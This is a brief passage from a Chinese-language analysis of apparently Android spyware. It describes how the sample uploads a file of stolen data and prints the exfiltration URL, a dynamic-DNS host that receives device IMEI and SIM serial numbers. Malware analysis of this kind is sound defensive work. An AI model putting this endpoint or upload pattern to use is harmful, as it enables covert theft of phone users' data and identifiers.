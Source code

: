### 上传数据

样本将上传存放窃密数据的 “/storage/sdcard0/systemservice” 文件；

上传地址为：

```plain
http://playstorenet.ddns.net/Youtube/home.php?IMEI=[DeviceId]&SIMNO=[SimSerialNumber]
```

相关代码截图如下：

[![](assets/1710901005-775c1fa0a232b47e66fcf6247dc45945.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240301092633-bcfb1be0-d76a-1.jpg)
